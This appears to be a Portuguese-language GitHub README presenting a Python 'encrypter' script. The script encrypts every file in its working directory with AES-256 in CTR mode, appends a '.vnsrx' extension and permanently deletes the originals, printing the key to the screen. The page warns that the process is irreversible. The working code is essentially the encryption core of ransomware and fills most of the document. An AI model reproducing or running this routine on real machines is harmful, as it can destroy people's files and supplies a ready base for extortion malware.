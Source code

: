* **Processo Irreversível**: Após a criptografia ou descriptografia, os arquivos originais ou criptografados são excluídos permanentemente. Garanta que você salvou a chave antes de executar os scripts.

## Os Códigos em Pyhton

**ENCRYPTER**

 ```bash
import os
import pyaes
import os
import random
import string

def generate_random_key(length=32):
    """Gera uma chave aleatória de bytes usando os.urandom para segurança criptográfica."""
    return os.urandom(length)

def encrypt_file(file_name, key):
    # Lê os dados do arquivo
    with open(file_name, "rb") as file:
        file_data = file.read()

    # Cria um objeto AES com AES-256
    aes = pyaes.AESModeOfOperationCTR(key)

    # Criptografa os dados
    encrypted_data = aes.encrypt(file_data)

    # Salva os dados criptografados em um novo arquivo com a extensão .vnsrx
    new_file_name = file_name + ".vnsrx"
    with open(new_file_name, "wb") as file:
        file.write(encrypted_data)

    print(f"Arquivo {file_name} criptografado com sucesso e salvo como {new_file_name}!")

    # Verifica se o arquivo criptografado foi criado com sucesso
    if os.path.isfile(new_file_name):
        # Remove o arquivo original
        os.remove(file_name)
        print(f"Arquivo original {file_name} foi removido.")
    else:
        print(f"Erro: O arquivo criptografado {new_file_name} não foi criado. O arquivo original não será removido.")

def main():
    # Gera uma chave aleatória de 32 bytes
    key = generate_random_key(32)

    print(f"Chave gerada: {key.hex()}")  # Exibe a chave em formato hexadecimal

    # Nome do arquivo do script
    script_name = os.path.basename(__file__)

    # Lista todos os arquivos no diretório atual
    for file_name in os.listdir('.'):
        # Ignora diretórios, arquivos já criptografados e o próprio script
        if os.path.isfile(file_name) and not file_name.endswith('.vnsrx') and file_name != script_name:
            encrypt_file(file_name, key)

    print("Todos os arquivos foram criptografados.")

 ```